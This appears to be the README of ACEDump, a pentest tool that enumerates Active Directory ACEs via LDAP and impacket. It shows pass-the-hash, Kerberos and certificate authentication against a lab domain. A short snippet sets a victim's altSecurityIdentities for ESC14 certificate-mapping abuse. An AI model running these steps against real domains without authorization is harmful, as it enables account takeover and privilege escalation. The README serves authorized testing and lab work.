

#######
ACEDump
#######

| Enumerate Active Directory ACEs using python3 ldap3 and impacket.

|

***************
Getting Started
***************

.. code-block:: bash

    pipx install git+https://github.com/charlesgargasson/acedump.git@main
    # pipx uninstall acedump
    # pipx upgrade acedump

    # sudo apt install -y libkrb5-dev
    # sudo yum install -y krb5-devel

|

.. code-block::

    options:
    -h, --help            show this help message and exit
    -s SERVER, --server SERVER
                            Domain controller IP/hostname
    -u USERNAME, --username USERNAME
                            Username
    -p PASSWORD, --password PASSWORD
                            Password
    -d DOMAIN, --domain DOMAIN
                            Domain name
    -b BASE_DN, --base-dn BASE_DN
                            Base DN, e.g. DC=domain,DC=com
    -k, --kerberos        Use Kerberos authentication
    --tls                 Use TLS
    -f FILTER, --filter FILTER
                            LDAP filter, e.g. (|(objectClass=user))
    -H HASHES, --hashes HASHES, --nthash HASHES
                            NT hash
    --aes AES             AES hash
    --cert CERT           Certificate file
    --certkey CERTKEY     Key file
    --certpass CERTPASS   Certificate password if any
    --kdc KDC             KDC FQDN
    --port PORT           LDAP port
    -i, --interact        Connect and spawn python console
    --dontfixtime         Don't fix clock skew
    --pagesize PAGESIZE   Size of pagination, default:500
    -v, --verbose         Enable verbose
    --debug               Enable debug output (you don't want to use this)
    --allsid              Include all SID (low and default RIDs)

|

|

***********
Credentials
***********

| ACEDump support NTLM, Kerberos, X509 certificates, NT hash, AES hash, user/password.
| If you don't provide any hash or password, ACEDump will try a blank password.
| Kerberos auth require valid DNS entry for targeted DC.

.. code-block:: bash

    # Kerberos CCACHE
    export KRB5CCNAME='USER.ccache'
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB 

    # Kerberos NTHash (etype23)
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0

    # Kerberos AES
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB --aes 910e4c922b7516d4a17f05b5ae6a147578564284fff8461a02298ac9263bc913

    # Kerberos user/password
    acedump -v -k -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Certificate X509 PEM format (no pfx support yet)
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB --cert user.crt --certkey user.key

    # NTLM (password or hash)
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB -H 31d6cfe0d16ae931b73c59d7e0c089c0
    acedump -v -s DC01.BOX.HTB -u USER -d BOX.HTB -p 'FooBar_123'

    # Anonymous (untested)
    acedump -v -s DC01.BOX.HTB

|

***************
Certificate/TLS
***************

| ACEDump support user certificate with StartTLS (389)
| I currently have issues with TLS (636) 

|

***
NTP
***

| ACEDump mock LDAP's clock using currentTime attribute and libfaketime (there is no NTP request).
| Use dontfixtime option if you want to deal with clock skew by yourself.

|

***********
Interactive
***********

| ACEDump connect to LDAP and start a python console.
| The connection object is "conn"

|

.. code-block:: bash

    $ acedump -s 10.129.231.205 -u USER -p Password123 -k -i -v

      █████╗  ██████╗███████╗██████╗ ██╗   ██╗███╗   ███╗██████╗ 
     ██╔══██╗██╔════╝██╔════╝██╔══██╗██║   ██║████╗ ████║██╔══██╗
     ███████║██║     █████╗  ██║  ██║██║   ██║██╔████╔██║██████╔╝
     ██╔══██║██║     ██╔══╝  ██║  ██║██║   ██║██║╚██╔╝██║██╔═══╝ 
     ██║  ██║╚██████╗███████╗██████╔╝╚██████╔╝██║ ╚═╝ ██║██║     
     ╚═╝  ╚═╝ ╚═════╝╚══════╝╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚═╝     
                -- version 0.0.5 --

    ✅ Anonymous bind : ldap://10.129.231.205:389 - cleartext
    ⚠️  LDAP clock in past : 2025-06-20 18:19:09 (7199.408678 seconds)
    🛠️  KDC : DC01.BOX.HTB
    🛠️  KRB5_CONFIG saved to /tmp/krb.conf
    ✅ CCache saved to /tmp/USER.ccache
    ✅ Authenticated : ldap://DC01.BOX.HTB:389 - cleartext
    ✅ Valid DN : DC=BOX,DC=htb

    ------------------------
    ACEDump interactive mode
    ------------------------

    Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    (InteractiveConsole)
    >>> print(conn)
    ldap://DC01.BOX.HTB:389 - cleartext - user: None - not lazy - bound - open - <local: 10.10.14.182:54201 - remote: 10.129.231.205:389> - tls not started - listening - SyncStrategy - internal decoder

|

| Example to set VICTIM's altSecurityIdentities attribute for ESC14.

.. code-block:: bash

    target_dn = 'CN=victim,OU=Foobar,DC=box,DC=htb'
    issuer = 'DC=htb, DC=box, CN=box-DC01-CA'
    serial = '61:00:00:00:05:3d:d7:2a:1a:e6:6f:aa:f3:00:00:00:00:00:04'

    serial = ''.join(serial.split(':')[::-1])
    altSecurityIdentities = f"X509:<I>{issuer.replace(', ', ',')}<SR>{serial}"
    
    print(altSecurityIdentities)
    # X509:<I>DC=htb,DC=box,CN=box-DC01-CA<SR>040000000000f3aa6fe61a2ad73d0500000061

    import ldap3
    conn.modify(target_dn,{'altSecurityIdentities':[(ldap3.MODIFY_ADD, altSecurityIdentities)]})
    # Return True if changed

|

| Example to search user using SamAccountName attribute

.. code-block:: bash

    conn.search(args.base_dn, '(SamAccountName=johndoe)', attributes=['*'])
    conn.entries

|